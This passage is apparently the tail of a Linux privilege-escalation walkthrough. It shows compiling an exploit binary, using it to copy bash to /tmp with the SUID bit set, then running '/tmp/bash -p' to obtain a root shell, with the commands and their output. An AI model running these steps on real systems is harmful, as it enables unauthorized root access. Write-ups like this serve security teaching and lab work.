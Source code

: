 ```bash
        shmdt(shared_memory_address);
}
```

Compile it:

```bash
gcc -o exploit exploit.c
```

Now, let’s create a SUID bash:

```bash
./exploit 'cp /bin/bash /tmp/bash; chmod u+s /tmp/bash'
```

Now check the /tmp dir:

```bash
ls -l /tmp/bash

-rwsr-xr-x 1 root root 1396520 Aug 29 14:47 /tmp/bash

```

We see SUID is set. Now run it in privileged mode:

```bash
/tmp/bash -p

whoami

root

```

We now have root.